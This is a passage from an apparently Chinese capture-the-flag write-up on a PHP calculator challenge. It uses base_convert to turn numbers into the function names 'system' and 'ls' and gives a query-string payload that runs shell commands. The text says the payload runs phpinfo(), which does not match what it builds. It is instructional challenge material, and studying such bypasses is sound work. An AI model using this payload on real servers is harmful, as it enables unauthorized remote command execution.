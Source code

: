 **方法二：**

这个计算器特写向国赛初赛的一道题，这个可以采用国赛拿到题目的做法来做题。

`base_convert`函数可以在任意进制之间转换数字，可以返回任意字母，需要注意它无法返回`_ *`等特殊字符

![](img/3f0073f0a0c3da68e7c62f3ccc425c1e.png)

```
D:\phpStudy\php\php-5.5.38
λ php -r "echo base_convert('system',36,10)";
1751504350
D:\phpStudy\php\php-5.5.38
λ php -r "echo base_convert('ls',36,10)";
784
D:\phpStudy\php\php-5.5.38 
```

`? num=base_convert(1751504350,10,36)(base_convert(784,10,36))`可以成功执行phpinfo();

![](img/b3c3207d09a92cbf5a1a3a281c819d15.png)
